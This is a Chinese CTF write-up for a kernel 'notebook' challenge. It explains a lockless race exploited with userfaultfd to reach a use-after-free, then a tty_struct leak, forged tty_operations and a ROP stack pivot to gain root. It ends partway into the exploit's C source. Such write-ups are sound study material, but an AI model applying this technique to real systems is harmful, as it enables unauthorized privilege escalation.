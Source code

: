 直接把 notebook 给我们了，那堆地址啥的也有了。



### mynote_read

![image-20241031144311861](https://oss.nova.gal/img/image-20241031144311861.png)

读，没有锁



### mynote_write

![image-20241031144354846](https://oss.nova.gal/img/image-20241031144354846.png)

写，也没锁。



## 思路

### 1、userfaultfd + tty_struct

显然用 userfaultfd 是最容易达成 UAF 的，因为我们可以把 copy_from_user 传数据的那个页搞成 Anouymous 的，然后第一次访问就会造成缺页异常，进而进入到我们自己的 handler 里。



因此我们可以用 tty_struct 来泄露内核地址，并且能够通过伪造 tty_operations 来进行提权。在 write 操作的时候 rax 寄存器是 tty_struct 的地址，因此我们可以在这个上面布置 ROP 链子，从而将栈迁移到我们的 notebook 上，从而完成提权。



为了达成我们 raceCondition 的顺序，我们可以使用信号量来做。

我们添加一个 chunk，然后 edit 它的大小为 0，此时 copy_from_user 触发缺页异常，我们激活 add，然后让他修改 size，接着继续触发缺页异常。



```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <semaphore.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/syscall.h>

#define DEBUG 1
#include "kernel.h"


sem_t add_sem, edit_sem;

struct Note {
    size_t idx;
    size_t size;
    void *content;
};

struct KNote {
    void* ptr;
    size_t size;
```